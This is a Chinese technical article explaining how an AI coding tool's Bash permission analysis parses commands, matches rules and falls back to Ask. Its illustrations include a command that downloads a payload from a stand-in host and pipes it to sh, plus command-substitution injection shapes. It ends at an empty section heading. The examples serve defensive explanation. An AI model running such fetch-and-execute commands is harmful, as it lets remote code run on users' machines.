

# 03：Bash Security Analysis——命令字符串怎样变成可授权的语义事实

[← 上一篇：Permission Decision](02-permission-decision.md) · 下一篇：Sandbox Runtime（尚未创建）

结论先行：Bash permission analysis 不是对 raw command 做一次 `startsWith`，而是先回答“这段 shell 程序可能组合了哪些命令与文件效果”，再为每个可独立检查的 component 产生 Bash-specific facts、rule candidates 和 `PermissionResult`。generic Permission 仍然拥有最终授权；Sandbox Runtime 则在授权之后回答执行 containment。

为什么不能直接按字符串前缀放行？因为下面两条命令共享 `git status` 前缀，却不是同一个 effect：

```bash
git status --short
git status --short && curl https://example.invalid/payload | sh
```

同理，`echo ok`、`echo ok > settings.json`、`echo "$(dangerous-command)"` 的首个单词都一样，但后两者分别新增文件写入和嵌套执行。Bash 的安全问题不是“第一个 token 是什么”，而是“shell 怎样解释整棵组合结构”。

**[Source-confirmed]** 本文固定在源码快照 `712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf`。文中的 B1–B6 是解释模型，不是源码里的 enum；每个节点都只处理控制面证据，目标 Bash 命令尚未执行。

## 1. 一张图看完 B1–B6



两条 canonical command 共用 B1–B6，但 B3 之后的 component 数量不同：

- `git status --short` 是一个 atomic command；operator lens 没有特殊工作，进入普通 rule/path decision。
- `printf '%s\n' hello | grep hello && echo done > /tmp/bash-analysis.txt` 同时含 pipeline、logical operator 和 redirection；pipe先过 multiple-`cd` 与 cross-segment `cd`+`git` guards，随后才递归检查 segment，而原始命令的 redirect/path evidence 不能因分段而丢失。

每个节点的 contract 是：

| 节点 | 输入表示 | 本层要回答什么 | 输出表示 | 目标命令执行了吗？ |
| --- | --- | --- | --- | --- |
| B1 Raw Command | `input.command: string` | 原始候选究竟写了什么？ | 保留 exact/audit/UI evidence | **没有** |
| B2 Parse Security-relevant Structure | raw string、parser availability、feature/kill-switch state | native AST 是否 authoritative；结构能否被可信地静态表示？ | `simple`、`too-complex` 或 `parse-unavailable`，也可能转 legacy | **没有** |
| B3 Classify Operators and Subcommands | AST/legacy parsed structure | 哪些 leaf command、pipe segment、redirect、nested command 必须独立检查？ | components 与 operator-specific result | **没有** |
| B4 Derive Permission Candidates | component 的 `text`、`argv`、env/wrapper/redirection facts | rule matcher应该比较哪些 bounded view；建议 exact 还是 prefix？ | exact/prefix/wildcard candidates | **没有** |
| B5 Match Bash Rules | candidates 与 Bash rules | 哪条 exact/prefix/wildcard deny、ask、allow rule 命中？ | matched rule evidence 或 no match | **没有** |
| B6 Allow, Deny, Ask, or Parse-safe Fallback | component results、path/redirection result、parse uncertainty | 哪个实际 Bash branch 返回？ | Tool-specific `PermissionResult` | **没有** |

`Allow` 在图的终点仍只是 authorization result。B1–B6 没有 fork 目标 shell，也没有创建 redirect 文件；parser 初始化、telemetry、classifier 或 permission-state 工作即使发生，也不等于目标 command effect。

## 2. 威胁边界与状态模型

### 2.1 为什么 raw prefix 不是 effect identity

只有会改变实现决策的六类差异需要进入本文：

1. **operators 会组合多个 effect。** `;`、`&&`、`||`、`|`、`|&`、`&` 和 newline 能让一个 raw string 含多个 leaf command；只授权左侧前缀会漏掉右侧。
2. **redirection 会改变文件状态。** `echo ok` 与 `echo ok > file` 的 executable identity 相同，文件 effect 不同。
3. **command substitution 会隐藏 nested execution。** `$()` 或 backticks 产生的值还可能变成 path、flag 或 command argument；不能一律替换成“安全字符串”。
4. **quoting / escaping 决定 token boundary。** Bash 的 unquoted backslash、single quote 与 double quote 规则不同；`split(/\s+/)` 不能作为 security parser。
5. **wrappers 与 environment prefixes 会遮住 effective executable。** `timeout 10 git status`、`FOO=bar git status` 需要 bounded stripping；过度 stripping 又会把 wrapper 自己的 dynamic expression 隐藏掉。
6. **共享 prefix 不代表共享 effect。** prefix无论从 raw full command还是 isolated component派生，都只能是 rule candidate；实际 allow matching仍要过 compound-command guards与后续 Permission routing，不能反过来证明整条 command安全。

这不是通用 shell 攻击目录。本文只讨论 pinned implementation 确实识别、拒绝或 fallback 的结构。

### 2.2 三条 parser authority 路径

`bashToolHasPermission` 并非在所有配置下都无条件调用 `parseForSecurity`。permission path 自己调用 `parseCommandRaw`，把同一个 `astRoot` 同时交给 security representation 与 operator lens；`parseForSecurity` 则是 `preparePermissionMatcher` 等 consumer 的独立入口。

permission path 有三种 authority 状态：

| 路径 | decisive condition | authoritative evidence | fallback / output |
| --- | --- | --- | --- |
| **native AST** | injection check 没被禁用，shadow feature 不在 observational authority，parser root 可用 | `parseForSecurityFromAst` 的 `simple` / `too-complex`，同一 root 供 operator analysis 使用 | `simple` 继续；`too-complex` 只保留明确 rule carve-out，否则 Ask |
| **shadow observational** | `TREE_SITTER_BASH_SHADOW` 开启；kill-switch 决定是否真的做 native parse | AST 只用于记录 available、too-complex、semantic failure、subcommand divergence | 无论观测结果如何，随后强制 `parse-unavailable` 与 `astRoot = null`，legacy authoritative |
| **parse-unavailable / legacy** | module/root 不可用、shadow 强制、native parse 被跳过，或 injection check 由 env kill-switch 禁用 | `tryParseShellCommand`、legacy operator/parser 与 legacy injection gates（若后者没有被 kill-switch 禁用） | malformed syntax → Ask；否则继续 legacy component analysis |

两个边界尤其重要：

- native parser **abort/timeout/resource limit** 进入 `too-complex`，不会伪装成 module unavailable 再降级到较弱的 legacy parser；
- shadow 的 AST verdict 不能授权。它是 telemetry evidence，legacy 才是该分支的 decision evidence。

### 2.3 中间表示必须逐个定义

native security representation 的核心不是 token list，而是：

```text
SimpleCommand = {
  argv: string[],                 // quotes 已按受支持规则解析
  envVars: { name, value }[],     // leading VAR=value
  redirects: { op, target, fd? }[],
  text: string                    // 原始或安全重建的 source span
}
```

本文使用下面六个术语：

| 术语 | 精确定义 |
| --- | --- |
| raw command | 用户/模型提交给 Bash Tool 的完整 `input.command`；尚未执行 |
| security structure | `ParseForSecurityResult`：`simple(commands)`、`too-complex(reason)` 或 `parse-unavailable` |
| independently checked component | 一个 AST leaf `SimpleCommand`、通过 pipe prechecks 后递归检查的 segment，或 source-supported substitution 的 inner command |
| effective matching view | 为 rule matching 派生的候选字符串，例如去掉 output redirect、受限 wrapper/env prefix 后的 view；它不是新命令，也不会执行 |
| effective prefix / rule candidate | 可从 raw full command或 isolated component建议的 exact/bounded prefix；只供 proposed rule/update使用，不是 safety proof或最终 decision |
| component / aggregate result | Bash-specific `PermissionResult`；可能是 allow、deny、ask、passthrough，并可携带 matched rule、subcommand reasons 或 suggestions |

转换时保留与丢弃的信息也不同：

- raw → `SimpleCommand`：保留 ordered argv、env assignment、redirect 和 source span；`argv` 丢掉 quote delimiters，但 `text` 仍供 exact/UI evidence。
- component → matching view：可以暂时丢掉 output redirect 或受支持 wrapper，以识别 executable rule；redirect/path evidence 由独立分支继续持有。
- component → simple prefix candidate：可能只保留 executable + 第二个 subcommand-shaped token；后续 arguments 被丢掉只为了生成 suggestion，不是安全证明。
- rules → result：保留实际 matched `PermissionRule`，或以 `subcommandResults` 保留每个 component 的理由；不能只留下一个布尔值。

## 3. Canonical simple command：`git status --short`

现在沿 B1–B6 走一遍：

```bash
git status --short
```

### B1：保留 raw evidence

raw string 仍是 `git status --short`。exact rule、日志和 permission prompt 可以引用它；此时没有调用 `git`。

### B2：得到一个 native `SimpleCommand`

在 native-authoritative variant 中，security AST 得到：

```text
argv      = ["git", "status", "--short"]
envVars   = []
redirects = []
text      = "git status --short"
```

`checkSemantics` 还会检查 tokenization 虽然成立、但按 builtin/name 语义仍不应静默通过的形状。若在 shadow variant，这份 AST 只能用于观测；后续仍改走 legacy。若 parser unavailable，则没有资格捏造上面的 argv，而是进入 legacy parse。

### B3：operator lens passthrough

该 command 没有 pipe、subshell 或 command group，`checkCommandOperatorPermissions` 返回 `passthrough`，含义是“operator helper 没有独立决定”，不是“允许”。随后 normal subcommand flow 看到一个 atomic component。

### B4：派生 matching views 与 prefix candidate

这个 component 至少保留两种 view：

```text
exact evidence     = "git status --short"
simple prefix hint = "git status"
```

`getSimpleCommandPrefix` 会跳过受限 safe env assignment，要求第二个 token 形如 subcommand，拒绝 flag、path、URL、filename 或 number。它可能经 `suggestionForExactCommand` 在 operator analysis之前收到 raw full command，也可能在后续 suggestion flow收到 isolated component。它内部使用 whitespace splitting的安全边界不在“caller必然已隔离”，而在**输出只是一条 proposed rule/update candidate**：helper不返回 `PermissionResult`，实际 allow matching仍由 compound-command guards、rule matcher与 generic Permission routing决定。

因此可以建议 `Bash(git status:*)` 一类 rule，但不能从 `git` 前缀直接推导 Allow。若第二个 token 不满足约束，就退回 exact-command suggestion。

### B5：按实际 Bash branch 匹配规则

exact check 的 source order 是：

```text
exact deny → exact ask → exact allow → passthrough
```

atomic prefix/path decision 的 order 更长：

```text
exact deny/ask
→ prefix or wildcard deny
→ prefix or wildcard ask
→ path constraints
→ exact allow
→ prefix or wildcard allow
→ sed/mode/read-only checks
→ passthrough
```

deny/ask 对 leading env vars 的 stripping 比 allow 更 aggressive：`FOO=bar denied-command` 不应逃过 deny；allow 只剥离 source-confirmed safe env/wrapper 形状，避免把动态 wrapper 参数隐藏掉。

### B6：返回 result，不执行 command

可能结果包括：

- matched deny rule → Bash-specific Deny；
- matched ask rule或 path constraint → Ask；
- exact/prefix allow 或 read-only branch → Allow；
- 无 decisive branch → passthrough，交给 generic Permission 继续收口为 Ask、Deny 或其他 mode-specific decision。

无论返回哪一种，B6 都没有执行 `git status --short`。甚至 Bash-specific Allow 也只是让上一层 Permission 有资格继续。

## 4. Canonical compound command：pipeline、logical operator 与 redirection

使用 source-compatible command：

```bash
printf '%s\n' hello | grep hello && echo done > /tmp/bash-analysis.txt
```

### 4.1 B2 先找 leaf facts，B3 再做 operator policy

native AST 能识别 `pipeline`、`list` 与 static `file_redirect`，并收集 leaf commands。概念上得到：

```text
printf '%s\n' hello
grep hello
echo done  + redirect { op: ">", target: "/tmp/bash-analysis.txt" }
```

这里必须区分两个 lens：

1. **security AST leaf extraction** 负责证明哪些 command/nested command/redirect 被看见；
2. **operator helper** 再对 pipe、subshell、command group 等需要特殊聚合的结构返回自己的 `PermissionResult`。

所以“AST 能提取 subshell 里的 command”不等于“operator policy 会静默允许 subshell”。pinned operator helper仍把 subshell/command group收口为 Ask。

### 4.2 pipe segment 递归检查

`checkCommandOperatorPermissions` 优先用共享 `astRoot` 构造 `ParsedCommand`；没有 root 时才调用 legacy-compatible `ParsedCommand.parse`。它的 decisive branch 是：

```text
unsafe subshell / command group → Ask
no pipe                         → passthrough
pipe                            → strip per-segment output redirect,
                                  run multiple-cd / cross-segment cd+git guards,
                                  then recursively check every segment
```

只有两道 guard 都通过，每个非空 pipe segment 才重新进入完整 `bashToolHasPermission`：多个 normalized `cd` 跨 segment出现，或所有 segment拆出的 subcommands合计同时出现 normalized `cd` 与 `git`，都会先返回 Ask。通过后，某个 segment 内仍可含 `&&`；它在递归调用中由普通 AST subcommand aggregation 拆成 leaf commands。因此 pipeline aggregation 与 `&&`/`;` 的 normal aggregation 是两层，不应写成同一个字符串 splitter。

### 4.3 pipe aggregation 的 order 是局部规则

`segmentedCommandPermissionResult` 先运行两道 safety precheck；它们都通过后才创建 `segmentResults`、递归求值并聚合：

```text
multiple normalized cd across pipe segments → Ask
→ otherwise cross-segment cd + git          → Ask
→ otherwise evaluate every non-empty segment
→ any segment deny  => aggregate deny
→ all segments allow => provisional aggregate allow
→ otherwise          => aggregate ask + collected suggestions
```

因此“any segment Deny wins”只在 prechecks通过、该 segment确实被递归检查后成立。若任一 guard命中，helper在创建 `segmentResults` 前已经返回 Ask；它不会为了寻找潜在 Deny继续调用每个 segment。

这里的 Allow 仍是 **provisional**。pipe checking 为了避免把 redirect filename 当成 command，会先从 segment view 去掉 output redirection；因此 outer `bashToolHasPermission` 在看到 operator result 为 Allow 后，必须回到原始 command：

1. legacy variant 必要时重查原 command 的 dangerous patterns；
2. 用原始 `input.command` 加 AST-derived redirects/commands 调用 path constraints；
3. path deny/ask 可以覆盖 provisional pipe Allow；
4. 只有这些检查仍无 objection，才返回 operator Allow。

这闭合了一个关键不变量：**为 executable matching 丢掉 redirect 文本，不等于丢掉 redirect effect。** `/tmp/bash-analysis.txt` 在 B1–B6 始终只是待验证目标，没有被创建或写入。

### 4.4 normal subcommand aggregation 不是 universal `deny > ask > allow`

没有 pipe，或 pipe segment 递归进入 normal flow 后，`bashToolHasPermission` 对 `subcommands[]` 的关键顺序是：

1. 为每个 subcommand 运行 `bashToolCheckPermission`；
2. 任一 subcommand Deny → aggregate Deny；
3. 在**原始 command**上验证 output redirection/path；path Deny 立即返回；
4. path Ask 只在没有 subcommand 自己 Ask 时直接返回；
5. 只有一个 non-Allow 且它是 Ask 时，可直接返回该 Ask；多个 unresolved component 要进入 merge flow；
6. exact full-command Allow 位于这些先行检查之后；
7. 所有 subcommand 都 Allow，且 legacy variant 没发现 injection risk，才 aggregate Allow；
8. 剩余 component 重新生成 suggestions；最终有 ask subresult 就返回 Ask，否则可能返回 passthrough。

这是一组 branch-local order。不能把它压成跨所有阶段都成立的 `deny > ask > allow`，更不能拿 pipe helper 的三步聚合替代 normal flow 的 path/exact/suggestion order。

## 5. 结构变体：哪些被证明，哪些保守 fallback

### 5.1 sequence 与 logical operators

native traversal 明确识别这些 separator：

| form | native structural meaning | permission consequence |
| --- | --- | --- |
| `a ; b`、newline | sequential siblings | 两边 leaf commands 都检查；`;` 可携带已证明的 variable scope |
| `a && b` | conditional success chain | 两边都作为候选 component 检查；tracked variable scope按 source-confirmed顺序传播 |
| `a || b` | conditional failure branch | 两边都检查；scope 不被当作无条件线性事实 |
| `a & b` | background boundary | 两边都检查；background side 的 variable scope 不假装泄漏回来 |
| `a | b`、`a |& b` | pipeline | 先过 multiple-`cd` / cross-segment `cd`+`git` Ask guards，再进入 pipe segment recursive aggregation |

“两边都检查”不表示两边运行；B1–B6 只是在静态收集所有可能执行的 component。

### 5.2 redirection

pinned `Redirect` representation覆盖 `>`、`>>`、`<`、`>&`、`>|`、`<&`、`&>`、`&>>`、`<<<` 等 canonical operator。普通 file redirect target 必须是可静态还原的 word/string/concatenation；dynamic expansion、brace ambiguity 或 unrecognized shape进入 `too-complex`。

heredoc 是独立 walker：只有 quoted delimiter 的 body 才被视为 literal；unquoted delimiter会发生 shell expansion，因此进入 `too-complex`。不要由此推断实现支持所有 Bash redirection grammar。

单独的 `> file` 也是合法 Bash effect：walker 会用 empty `argv` 加 structured redirect 表示，避免“没有 executable 所以没有 effect”的错误。

### 5.3 command substitution 与 nested commands

实现没有把所有 `$()` 一律 Allow，也没有一律 Deny；它只对 source-confirmed shape递归：

```bash
echo "SHA: $(git rev-parse HEAD)"
```

double-quoted string含 literal `SHA: `，所以 outer argv 可放 runtime placeholder，同时 `git rev-parse HEAD` 被递归收集为另一个 independently checked command。outer 与 inner 都必须获得可接受结果。

下面这些保持 `too-complex`：

```bash
rm $(pick-path)
rm prefix$(pick-path)
cd "$(pick-path)"
echo done > "$(pick-path)"
```

原因不是“parser 看不到 inner command”，而是 dynamic output 本身可能成为 path 或 flag；placeholder 会骗过 downstream path validation。只有与 literal content 混合、且 source walker明确允许的 double-quoted shape才递归提取。backticks 与更深层 nested syntax也只在相同 walker contract覆盖时成立，不能泛化。

### 5.4 quoting 与 escaping

source-confirmed边界包括：

- single-quoted `raw_string` 去掉 delimiter 后保留 literal content；
- unquoted `\X` 按 Bash quote removal 还原为 `X`，但 backslash-escaped whitespace在 pre-check 被拒绝；
- double quote内只把 Bash 实际允许转义的 `$`、backtick、`"`、`\` 还原，其他 backslash保留；
- brace expansion、未知 parameter expansion、solo dynamic placeholder、tree-sitter/Bash differential进入 `too-complex`；
- 当 resolved `$VAR` 或 newline 让 raw `.text` 与真实 argv可能分叉时，walker从 argv安全重建 `.text`，让 downstream rule matching看到正确 command identity。

因此“quotes resolved”不是“任意 shell string 都已完全求值”，而是 pinned allowlist内的解析承诺。

### 5.5 wrappers 与 environment assignments

matching stage可派生多个 candidate view：

```text
raw / exact command
→ command without output redirection
→ optionally strip safe wrappers
→ for deny/ask, iteratively strip recognizable leading env assignments
```

safe wrapper patterns只覆盖受限的 `timeout`、`time`、`nice`、`stdbuf`、`nohup` 形状；wrapper flag values使用 allowlist，不能包含 `$()`、backticks或 operator。`timeout -k$(id) 10 ls` 因此不会被剥成 `ls` 再命中 broad allow。

deny/ask 与 allow故意不对称：

- deny/ask要防 `FOO=bar denied-command` bypass，所以可更积极地剥离无 expansion 的 leading assignments；
- allow只剥离 safe-list env与安全 wrapper形状，避免把实际 executable或 dynamic expansion看错。

`getSimpleCommandPrefix` 也只跳过 allowlisted leading env assignments。若遇到不安全 env assignment，它返回 null，让 suggestion回到 exact command。

### 5.6 parse failure、unsupported syntax 与 conservative branch

| uncertainty | pinned branch | 不能声称什么 |
| --- | --- | --- |
| native parser abort/resource limit | `too-complex`；先尊重 exact non-passthrough与 prefix deny，否则 Ask | 不能说“自动降级 legacy 后 Allow” |
| recognized AST但 semantic builtin/name失败 | exact Deny/Ask/Allow先直接返回；否则 full-command prefix/wildcard Deny，再检查每个 extracted component 的 prefix/wildcard Deny；都不命中才 Ask | 不能说“tokenize成功就安全”，也不能漏掉 exact Ask/Allow |
| parser module/root unavailable | legacy shell-quote/operator/safety path | 不能把 `parseForSecurity` 写成唯一入口 |
| shadow mode | 记录 AST verdict后强制 legacy authoritative | 不能用 shadow AST Allow授权 |
| malformed legacy shell syntax | Ask | 不能把 parse error当作 empty command |
| operator parser返回 null | operator helper `passthrough`，让 downstream legacy gates继续 | passthrough不是 Allow |
| legacy subcommand fanout超过 cap | Ask | 不能无限递归后假设全部安全 |
| unknown AST node、dynamic redirect/path、unsupported expansion | `too-complex`→明确 rule carve-out或 Ask | 不能扩张 parser coverage |

`too-complex` 的 carve-out也要准确：`checkEarlyExitDeny` 先返回 exact deny/ask/**allow** 中任何 non-passthrough结果，再检查 prefix/wildcard deny；只有都没命中才保守 Ask。也就是说，用户显式允许**完全相同的 command**可以是 source-confirmed exception；broad prefix allow不会借 parse uncertainty静默通过。

semantic failure 要与 `too-complex` 分开读。它先复用 `checkEarlyExitDeny`，所以真实顺序从 exact Deny→Ask→Allow→passthrough 开始；exact passthrough 后才检查 full-command prefix/wildcard Deny。接着 `checkSemanticsDeny` 还会逐个检查已经提取出的 `SimpleCommand.text` 是否命中 prefix/wildcard Deny；全部没有结果，`bashToolHasPermission` 才构造 conservative Ask。只有 semantic-failure path 多出这一步 per-component deny scan。

## 6. Bash facts 怎样交给 Permission

上一篇 [Permission Decision](02-permission-decision.md) 已经证明 generic authorization pipeline。本文只补 Bash interface，不合并 ownership：

| 层 | 拥有的输入/事实 | 可以返回什么 | 不拥有的结论 |
| --- | --- | --- | --- |
| Bash security parse | raw command、AST availability、`SimpleCommand[]`、too-complex reason | security structure与nested evidence | session mode最终决策、runtime containment |
| Bash candidate/rule matching | exact/prefix/wildcard views、wrapper/env/redirection facts | matching `PermissionRule`、suggestions | “prefix相同所以整条 compound安全” |
| Bash `checkPermissions` | component/path/operator results | Tool-specific Allow、Deny、Ask、passthrough及 reasons | cross-Tool final authorization |
| generic Permission | effective permission context、mode、Hook与 Tool-specific result | final Allow/Ask/Deny route、optional updates | Bash grammar与command decomposition |
| Sandbox Runtime | 获准后的 process launch与 containment配置 | execution boundary/result | 反向重写 Permission Deny |

这里的 `passthrough` 不是第四种用户授权，而是“Bash-specific层没有 decisive allow/deny/ask，请 generic Permission继续”。同样，Bash Ask可能携带 exact/prefix suggestions；只有外层真的应用 `PermissionUpdate`，future rule state才会改变。

## 7. 机制伪代码：先分析，再授权

下面刻意保留不同 branch的真实不对称，不发明一个 universal result shape：

```text
analyzeBashForPermission(input, context):
  raw = input.command                                      # target effect = false

  if injectionCheckDisabled:
    astRoot = null
  else if shadowFeatureOn and shadowKillSwitchOff:
    astRoot = null
  else:
    astRoot = parseCommandRaw(raw)

  astResult = astRoot
    ? parseForSecurityFromAst(raw, astRoot)
    : parse-unavailable

  if shadowFeatureOn:
    observe(astResult, legacySplit(raw))
    astResult = parse-unavailable                          # legacy authoritative
    astRoot = null

  if astResult is too-complex:
    if exact rule gives deny / ask / allow: return that result
    if prefix or wildcard deny matches: return deny
    return ask(reason, no broad suggestion)

  if astResult is simple:
    if semantic check fails:
      exactResult = exactRuleCheck(raw)                    # Deny → Ask → Allow → passthrough
      if exactResult is not passthrough: return exactResult
      if full-command prefix or wildcard deny matches: return deny
      if any extracted component prefix or wildcard deny matches: return deny
      return ask(semantic reason)
    components = astResult.commands
    redirects = flatten(components.redirects)
  else:
    if legacy shell parse malformed: return ask
    components = not-yet-derived legacy input

  exactResult = exactRuleCheck(raw)
  if exactResult is deny: return deny

  operatorResult = analyzeOperators(raw, astRoot,
    recurse = analyzeBashForPermission)

  # Inside the pipe branch, before recursive segment evaluation:
  # multiple normalized cd across segments → Ask
  # cross-segment cd + git                → Ask
  # only then: every segment → any Deny / all Allow / otherwise Ask

  if operatorResult is not passthrough:
    if operatorResult is allow:
      recheck original raw command and redirects/path
      if recheck objects: return deny or ask
    return operatorResult

  if native components unavailable:
    run legacy misparse/injection gates
    components = legacySplit(raw)

  componentResults = components.map(checkAtomicBashPermission)

  if any component is deny: return aggregate deny
  pathResult = validate original raw redirect/path evidence
  if pathResult is deny: return deny
  resolve path-ask and component-ask short-circuit conditions
  if exactResult is allow: return allow
  if all components allow and no legacy injection risk: return allow

  enrich unresolved components with exact/prefix suggestions
  return ask if an ask component exists, otherwise passthrough
```

这个函数名是 mechanism-first pseudocode，不是源码 symbol。它总结的是多个 source-confirmed functions共同形成的状态机。

## 8. 决定性源码 lenses

以下 excerpt 只在机制解释之后出现。每个 tuple 都写全 snapshot、repository-relative path 与 symbol。

### Lens A：security parse只有三种结果

**[Source-confirmed tuple]** `(712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf, src/utils/bash/ast.ts, ParseForSecurityResult / parseForSecurityFromAst)`

```ts
export type ParseForSecurityResult =
  | { kind: 'simple'; commands: SimpleCommand[] }
  | { kind: 'too-complex'; reason: string; nodeType?: string }
  | { kind: 'parse-unavailable' }
```

[`src/utils/bash/ast.ts:42`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/utils/bash/ast.ts#L42-L45) 定义 result union；[`parseForSecurityFromAst`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/utils/bash/ast.ts#L400-L460) 先挡 parser differential，再把 `PARSE_ABORTED` 明确变成 `too-complex`。

permission path 的 entry要看另一个 tuple，而不是假设上面唯一入口：

**[Source-confirmed tuple]** `(712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf, src/tools/BashTool/bashPermissions.ts, bashToolHasPermission)`

```ts
let astRoot = injectionCheckDisabled
  ? null
  : feature('TREE_SITTER_BASH_SHADOW') && !shadowEnabled
    ? null
    : await parseCommandRaw(input.command)
let astResult = astRoot
  ? parseForSecurityFromAst(input.command, astRoot)
  : { kind: 'parse-unavailable' }
```

[`src/tools/BashTool/bashPermissions.ts:1663`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L1663-L1729) 随后还证明 shadow会记录 verdict并强制 legacy。

### Lens B：semantic failure先保留 exact Ask/Allow，再逐层查 deny

**[Source-confirmed tuple]** `(712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf, src/tools/BashTool/bashPermissions.ts, checkEarlyExitDeny / checkSemanticsDeny / bashToolCheckExactMatchPermission / bashToolHasPermission)`

```ts
const exactMatchResult = bashToolCheckExactMatchPermission(
  input,
  toolPermissionContext,
)
if (exactMatchResult.behavior !== 'passthrough') {
  return exactMatchResult
}
const denyMatch = matchingRulesForInput(
  input,
  toolPermissionContext,
  'prefix',
).matchingDenyRules[0]

const fullCmd = checkEarlyExitDeny(input, toolPermissionContext)
if (fullCmd !== null) return fullCmd
for (const cmd of commands) {
  const subDeny = matchingRulesForInput(
    { ...input, command: cmd.text },
    toolPermissionContext,
    'prefix',
  ).matchingDenyRules[0]
  if (subDeny !== undefined) return { behavior: 'deny' }
}
```

上面的 lens并列两个相邻 helper 的决定性 statements，省略了 Deny result 的 message/reason payload。[`checkEarlyExitDeny`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L1391-L1415) 先返回任何 exact non-passthrough结果，再查 full-command prefix/wildcard Deny；[`checkSemanticsDeny`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L1431-L1453) 随后扫描每个 extracted component。exact内部 Deny→Ask→Allow→passthrough由 [`bashToolCheckExactMatchPermission`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L991-L1048) 建立；[`bashToolHasPermission` 的 semantic branch](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L1774-L1805) 只有在 helper返回 null时才产生 Ask。

### Lens C：simple prefix可看 raw或component，但只产生候选

**[Source-confirmed tuple]** `(712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf, src/tools/BashTool/bashPermissions.ts, getSimpleCommandPrefix / suggestionForExactCommand / bashToolCheckExactMatchPermission / filterRulesByContentsMatchingInput)`

```ts
const remaining = tokens.slice(i)
if (remaining.length < 2) return null
const subcmd = remaining[1]!
if (!/^[a-z][a-z0-9]*(-[a-z0-9]+)*$/.test(subcmd)) return null
return remaining.slice(0, 2).join(' ')
```

[`getSimpleCommandPrefix`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L161-L188) 只返回 string/null；[`suggestionForExactCommand`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L266-L295) 会把 single-line input直接交给它，而 [`bashToolCheckExactMatchPermission`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L991-L1048) 可在 operator analysis前为 raw command构造这个 suggestion。candidate没有授权力；[`filterRulesByContentsMatchingInput`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashPermissions.ts#L778-L935) 另行执行 prefix/wildcard compound guards，最后仍由 Permission消费 Bash result。

### Lens D：pipe segment有自己的聚合顺序

**[Source-confirmed tuple]** `(712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf, src/tools/BashTool/bashCommandHelpers.ts, segmentedCommandPermissionResult)`

```ts
const cdCommands = segments.filter(segment => {
  const trimmed = segment.trim()
  return checkers.isNormalizedCdCommand(trimmed)
})
if (cdCommands.length > 1) return { behavior: 'ask' }

// After splitting segments into subcommands and setting hasCd / hasGit:
if (hasCd && hasGit) return { behavior: 'ask' }

const segmentResults = new Map<string, PermissionResult>()
// Recursively evaluate every non-empty segment, then reduce:
const deniedSegment = Array.from(segmentResults.entries()).find(
  ([, result]) => result.behavior === 'deny',
)
if (deniedSegment) return { behavior: 'deny', /* subcommand reasons */ }

const allAllowed = Array.from(segmentResults.values()).every(
  result => result.behavior === 'allow',
)
if (allAllowed) return { behavior: 'allow', /* subcommand reasons */ }

return { behavior: 'ask', /* collected suggestions */ }
```

[`src/tools/BashTool/bashCommandHelpers.ts:23`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashCommandHelpers.ts#L23-L156) 证明 multiple-`cd` 与 cross-segment `cd`+`git` 两个 Ask guard 都位于 `segmentResults` 之前；只有 guard通过，才执行 any Deny→Deny、all Allow→provisional Allow、otherwise Ask。 [`bashToolCheckCommandOperatorPermissions`](https://github.com/buoylee/Claude-Code-true/blob/712b24f22a63eb6d1a2f86697bf6dbbaa39ae3cf/src/tools/BashTool/bashCommandHelpers.ts#L208-L265) 证明 subshell/group Ask、no-pipe passthrough与 pipe segmentation。outer original-command redirect/path recheck仍在 `bashToolHasPermission` 完成。

### Lens E：stored Bash rule先被解析成 rule shape

